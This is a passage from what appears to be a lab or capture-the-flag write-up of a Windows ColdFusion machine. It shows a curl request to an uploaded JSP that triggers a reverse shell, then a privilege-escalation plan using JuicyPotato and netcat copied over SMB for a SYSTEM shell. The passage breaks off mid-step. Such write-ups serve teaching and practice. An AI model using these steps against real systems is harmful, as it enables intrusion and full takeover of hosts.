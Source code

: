    ![image-20201114124807840](.Report.assets/image-20201114124807840.png)

5. Opening the file through a URL triggered a reverse shell as the user tolis

   ```bash
   curl http://10.10.10.11:8500/CFIDE/rev_jsp_8000.jsp
   ```

   ![image-20201114124855859](.Report.assets/image-20201114124855859.png)

6. After enumerating, I found this server is Windows 2008 R2 x64 and the tolis user has SeImpersonatePrivilege on their account.  I used SMB to copy JuicyPotato.exe and nc.exe from Kali to the target and then ran it to create a new reverse shell as the SYSTEM user:
